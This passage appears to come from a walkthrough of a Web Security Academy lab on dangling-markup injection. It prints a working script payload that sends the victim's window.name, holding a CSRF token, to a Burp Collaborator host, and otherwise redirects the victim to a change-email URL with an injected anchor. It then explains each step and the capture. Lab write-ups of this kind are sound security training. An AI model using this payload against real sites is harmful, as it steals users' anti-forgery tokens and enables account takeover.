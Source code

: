 After URL decode:

```html
<script>
  if(window.name) {
  	new Image().src='//your-collaborator-id.burpcollaborator.net?' encodeURIComponent(window.name);
  	}
  else {
  	location = 'https://your-lab-id.web-security-academy.net/my-account?email="><a href="https://your-exploit-server-id.web-security-academy.net/exploit">Click me</a><base target='';
  }
</script>
```

Let's understand the code step by step:

- first we are checking if there is a current window name exists or not which we can get by `window.name`. If it exists then we will create one new image with src of our collaborator link. learn more about `window.name` [here](https://developer.mozilla.org/en-US/docs/Web/API/Window/name#syntax)
- `encodeURIComponent` will URL encode the window.name. Learn more about it [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent)
- and if there is no `window.name` exist then we will redirect the victim to our lab's change email URL. with our payload as `email`. and our payload is a simple anchor tag which contains our exploit server's url as `href`

:::tip

You can get your burp collaborator id by going to `burp -> burp collaborator client -> copy to clipboard`

:::

--> Click `store` and then click `send exploit to Victim`

--> After that check for requests in collaborator client tab by clicking `poll now` and you will see one request.

And we got the CSRF token of victim!

![](Attachments/Pastedimage20220315135740.png)